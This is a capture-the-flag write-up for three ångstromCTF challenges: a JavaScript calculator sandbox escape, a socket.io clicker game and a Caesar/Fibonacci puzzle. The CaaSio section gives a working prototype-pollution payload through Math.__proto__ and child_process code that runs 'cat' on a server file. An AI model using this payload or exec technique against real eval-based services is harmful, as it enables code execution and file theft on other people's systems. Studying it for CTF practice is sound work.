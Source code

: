 # ångstromCTF

- [ångstromCTF](#ångstromctf)
  - [Web](#web)
    - [CaaSio](#caasio)
    - [Woooosh](#woooosh)
  - [Misc](#misc)
    - [Shifter](#shifter)

## Web

### CaaSio

For CaaSio we had access to a calculator. The source is [here](../../assets/code/angstrom/caasio/index.js).

Later in the execution our query is `eval`'d so obviously we need to run something interesting there.

There are a lot of details involved so I'll start with the basic ones.

```js
if (name.length > 10) {
    console.log("Your name is too long, I can't remember that!");
    return;
}
user.name = name;
if (user.name == "such_a_trusted_user_wow") {
    user.trusted = true;
}
```

The code above stops us from inputing a name bigger than 10 characters,
so no way you'll get your `such_a_trusted_user_wow`.

```js
while (user.queries < 3)
```

This stops us from making more than 3 queries, but we'll only need two!

```js
if (prompt.length > 200) {
    console.log("That's way too long for me!");
    continue;
}
```

To finish the boring stuff, we cannot send a command with more than 200 characters.
Still, no problem.

Let's get to the interesting stuff.

```js
let reg = /(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g
// ......
if (!user.trusted) {
    prompt = (prompt.match(reg) || []).join``;
}
```

Given we are not trusted, queries we send are filtered by `reg`.
Effectively stopping most possible attempts.

```js
Object.freeze(global);
Object.freeze(Math);
```

This stops us from modifying `Math`, however it is only a shallow freeze.
This means that members of `Math` are not frozen, we will be taking advantage of that to get our trusted execution going!

So, starting with the regex, we can write `Math.any_kind_of_text`,
including `Math.__proto__`.
While `__proto__` cannot be reassigned, we can extend it,
however we cannot write `Math.__proto__.obj`, as `obj` will be cut out.

Entering lambdas!
We can write `()=>` and while this does not make a multi line lambda, it allows us to make one action at a time.
Enabling composition!

We have our ingredients together!
First we need to get trusted.

```js
((Math)=>(Math.trusted=1))(((Math)=>(Math.__proto__))(Math))
```

You may be confused, in normal JS the code above looks like:

```js
function (Math) {
    Math.trusted = 1;
}(
    function (Math) {
        return Math.__proto__;
    }(Math)
);
```

Which in turn looks more like:

```js
function f(x) {
    return x.__proto__
}

function g(x) {
    return x.trusted = 1;
}

g(f(Math));
```

Why does this give us a trusted user?

`Math` inherits from `Object`, see [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math),
which means that when we mutate `Math.__proto__` we are mutating `Object.__proto__`, thus mutating every object,
hence why `user.trusted` will be set to `1`.

So now we just need to read the file.

```js
const { exec } = require("child_process");

exec("cat /ctf/flag.txt", (error, stdout, stderr) => {
    console.log(`stdout: ${stdout}`);
});
```

Running the code above, minified, will yield the flag.

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```

### Woooosh

For Woooosh we had a clicker game with an obfuscated clicker game.

![Woooosh](../../assets/images/angstrom/woooosh.png)

The backend [source](../../assets/code/angstrom/woooosh/index.js) was given.
They used [`socket.io`](https://socket.io/), so we can do the same.

Looking at the source they use the first shape as the circle.

```js
if (dist(game.shapes[0].x, game.shapes[1].y, x, y) < 10) {
    game.score++;
}
```

So when we receive the generated shapes we just need to pick the first!

I opened a socket and started by emitting `start`.

```js
socket.emit("start");
```

Afterwards we just need to listen for events and reply.
Bellow is the clicking function.

```js
socket.on('shapes', shapes => {
    socket.emit("click", shapes[0].x, shapes[0].y);
});
```

And you'll need this to get the flag.

```js
socket.on('disp', disp => {
    console.log(disp);
});
```

Full source [here](../../assets/code/angstrom/woooosh/woooosh.js).

## Misc

### Shifter

Connecting to Shifter we are greeted with the following:

```
Solve 50 of these epic problems in a row to prove you are a master crypto man like Aplet123!
You'll be given a number n and also a plaintext p.
Caesar shift `p` with the nth Fibonacci number.
n < 50, p is completely uppercase and alphabetic, len(p) < 50
You have 60 seconds!
--------------------
Shift BXRUJEAKBPSKTXDOXETQV by n=22
:
```

They give us a number `n` and a caesar cipher.
Easy enough, we can steal the implementations from StackOverflow (or write them ourselves) and do the following:

```py
def get_last_line(text):
    return text.split("\n")[-2]

def get_info(line):
    l = line.split(" ")
    return (l[1], l[-1].split("=")[1])
`
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        data = s.recv(1024)
        if not data:
            break
        text = data.decode("utf-8")
        print(text)
        cipher, n = get_info(get_last_line(text))
        fN = fib(int(n))
        shifted = caesar(cipher, fN)
        print(shifted)
        s.sendall(bytes(shifted + '\n', 'utf-8'))
```

`fib` and `caesar` are the implementations for Fibonnaci and Caesar cipher, respectively, both taken from some place on the internet, hence not being shown.

Breaking the script down:

```py
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
```

The code above will connect us to the challenge, then we just need to receive the buffer and parse it.
I used these two functions:

```py
def get_last_line(text):
    return text.split("\n")[-2]

def get_info(line):
    l = line.split(" ")
    return (l[1], l[-1].split("=")[1])
```

Afterwards we just cast `n`, calculate it, and shift the given cipher.

Voilá!

```
actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}
```